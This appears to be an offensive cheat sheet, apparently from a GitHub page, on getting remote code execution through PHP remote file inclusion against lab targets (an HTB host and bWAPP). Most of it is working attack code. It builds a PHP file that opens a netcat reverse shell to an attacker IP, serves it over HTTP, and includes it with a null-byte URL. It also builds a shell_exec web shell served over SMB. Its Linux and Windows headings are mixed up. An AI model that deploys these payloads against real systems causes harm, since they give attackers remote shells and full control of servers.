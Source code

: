 ## Getting RCE (Linux) :

```sh
echo '<?php echo shell_exec("nc.exe 10.11.0.105 9090 -e cmd.exe") ?>' > evil.php
```

```python
python3 -m http.server 80
```

```bash
nc -nvlp 9090
```

Now access our shell from target website.
http://target.htb/addguestbook.php?parameter=http://<OUR_IP>/evil.php%00

- - -
## Getting RCE (Windows) :

```bash
echo "<?php echo shell_exec($_GET['cmd']);?>" > /tmp/php_cmd.php
```

```sh
sudo apt-get install samba
```

```python
python smbshare.py –smb2support sharepath /tmp
```

Now, Access it via browser (**2 request attack**):
http://192.168.0.3/bWAPP/rlfi.php?language=\\Our-IP\sharepath\php_cmd.php

And Now we have Command execution : 
http://192.168.0.3/bWAPP/rlfi.php?language=\\Our-IP\sharepath\php_cmd.php&cmd=dir

